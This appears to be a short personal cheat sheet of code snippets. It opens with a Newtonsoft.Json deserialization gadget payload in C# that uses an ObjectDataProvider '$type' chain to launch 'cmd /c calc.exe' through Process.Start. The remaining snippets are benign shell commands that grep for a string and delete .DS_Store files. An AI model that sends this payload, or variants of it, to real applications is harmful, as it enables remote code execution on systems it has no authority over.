 # Object Deserialization
## C# Newtonsoft
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## Search for a string
```sh
#!/bin/sh

grep -r "hede" * 2>/dev/null
```
#####

## Find and delete files
```sh
#!/bin/sh

find . -name ".DS_Store*" -print 2>/dev/null |  xargs rm 

```
#####

## Find and delete files (in case of a space in path we should use)
```sh
#!/bin/sh

find . -name ".DS_Store*" -exec rm {} + 2>/dev/null 

```
